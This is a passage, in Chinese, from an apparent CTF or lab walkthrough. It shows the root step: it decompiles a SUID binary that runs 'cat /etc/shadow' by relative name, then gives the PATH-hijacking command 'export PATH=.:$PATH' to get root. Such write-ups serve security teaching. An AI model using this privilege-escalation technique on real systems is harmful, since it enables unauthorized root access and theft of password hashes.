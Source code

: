 ![](./images/image-354.png)

## Root

注意到当前文件夹中有一个**laststep**文件，并且设置了**SUID**

![](./images/image-355.png)

进行反编译，非常简单

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setgid(0);
  setuid(0);
  system("cat /etc/shadow");
  return 0;
}
```

你或许已经猜到了要用到路径劫持了吧

注意这里要给**chmod +x**执行权限哦

```
export PATH=.:$PATH
```

![](./images/image-356.png)
